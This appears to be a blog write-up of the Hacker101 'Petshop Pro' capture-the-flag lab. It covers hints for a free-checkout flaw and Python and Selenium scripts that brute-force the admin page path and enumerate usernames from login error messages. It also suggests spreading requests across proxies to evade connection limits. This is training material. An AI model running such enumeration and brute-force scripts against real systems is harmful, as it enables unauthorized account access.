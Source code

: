 # Petshop Pro - Capture The Flag from Hacker101
Created at <time datetime="2021-05-30T00:00:00">2021-5-30</time>

[TOC]

At the start you are given simple website with cats and dogs which you can simply add to your cart. After adding few cats and dogs you can proceed to checkout and after submitting the orders you got server is unavailable.

## 1. The First Flag

Isn't beautiful to buy something for free. Well, thats what is the first flag about.

The first flag hints are: 

* Can you buy the cart for free?
* Keep in mind that every input should be tested.

## 2. The Second flag

The Second flag was kinda hard for me as I couldn't come up with idea where should I search for the flag. Though the advice didn't make it easier either!

The second flag hints are:

* Search for admin panel page
* Tools will help you to find corrrect user name 
* Tools will help you to find corrrect password

### 2.1. Admin Page

The advice about admin panel page was not so helpful at the first look. Mainly because brute force approach to find the admin page did not work. I took [a-z] permutations of alphabet but there were too many to try. It was not feasible solution in both time fashion and number of maximum queries before connection dropped. So I decided to use few dictionaries of common admin page names and it worked after few tries. Just use the right dictionary and that's it :) The solution could be improved by load balancing requests between more proxies so more queries will be processed than from single source. 

Here is a simple python snippet which could be used.
```python
import requests
import string

session = requests.Session()

content = open('admin_page_list.txt', 'r')

for line in content:
  x = session.head('http://xxx.xxx.xxx.xxx/' + line.strip())
  if x.status_code == 200:
    print('Web site exists: ' + x.url)
    break
  else:
    print('Not found' + x.url)
 
```

### 2.2. User Name

I used the same approach with dictionary to search for user name. The only change was that I chose selenium to render the page, to fill in user name and to check whether it is correct user after submition. 

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

driver = webdriver.Firefox()
driver.get("http://xxx.xxx.xxx.xxx/login")

# Opening file
file1 = open('user_list.txt', 'r')
 
for line in file1:
    user_name = line.strip()
    user = driver.find_elements_by_css_selector('body > form > p:nth-child(1) > input[type=text]')[0]
    user.send_keys(user_name)

    loginbtn = driver.find_elements_by_xpath('/html/body/form/p[3]/input')[0]
    loginbtn.send_keys(Keys.RETURN)

    driver.implicitly_wait(15)

    resp = driver.find_elements_by_css_selector('body > p:nth-child(2) > b:nth-child(1)')[0]
    if resp.text != 'Invalid username':
        print(user_name)
        break

    time.sleep(1)
 
# Closing files
file1.close()
driver.close()
```

### 2.3. Users Password

Just the same as with user name.